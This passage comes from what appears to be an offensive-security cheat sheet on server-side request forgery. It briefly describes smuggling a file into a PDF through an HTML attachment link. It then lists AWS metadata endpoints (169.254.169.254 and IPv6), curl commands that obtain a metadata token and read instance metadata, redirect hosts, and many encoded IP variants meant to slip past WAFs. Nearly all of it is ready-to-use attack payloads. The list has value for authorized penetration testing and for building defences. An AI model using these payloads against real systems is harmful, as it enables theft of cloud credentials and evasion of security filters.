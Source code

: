 Example of a PDF attachment using HTML 

1. use `<link rel=attachment href="URL">` as Bio text
2. use 'Download Data' feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. `cat attachment.bin`

## SSRF URL for Cloud Instances

### SSRF URL for AWS

The AWS Instance Metadata Service is a service available within Amazon EC2 instances that allows those instances to access metadata about themselves. - [Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)


* IPv4 endpoint (old): `http://169.254.169.254/latest/meta-data/`
* IPv4 endpoint (new) requires the header `X-aws-ec2-metadata-token`
  ```powershell
  export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```

* IPv6 endpoint: `http://[fd00:ec2::254]/latest/meta-data/` 

In case of a WAF, you might want to try different ways to connect to the API.

* DNS record pointing to the AWS API IP
  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```
* HTTP redirect
  ```powershell
  Static:http://nicob.net/redir6a
  Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
  ```
* Encoding the IP to bypass WAF
  ```powershell
  http://425.510.425.510 Dotted decimal with overflow
  http://2852039166 Dotless decimal
  http://7147006462 Dotless decimal with overflow
  http://0xA9.0xFE.0xA9.0xFE Dotted hexadecimal
  http://0xA9FEA9FE Dotless hexadecimal
  http://0x41414141A9FEA9FE Dotless hexadecimal with overflow
  http://0251.0376.0251.0376 Dotted octal
  http://0251.00376.000251.0000376 Dotted octal with padding
  http://0251.254.169.254 Mixed encoding (dotted octal + dotted decimal)
  http://[::ffff:a9fe:a9fe] IPV6 Compressed
  http://[0:0:0:0:0:ffff:a9fe:a9fe] IPV6 Expanded
  http://[0:0:0:0:0:ffff:169.254.169.254] IPV6/IPV4
  http://[fd00:ec2::254] IPV6
  ```
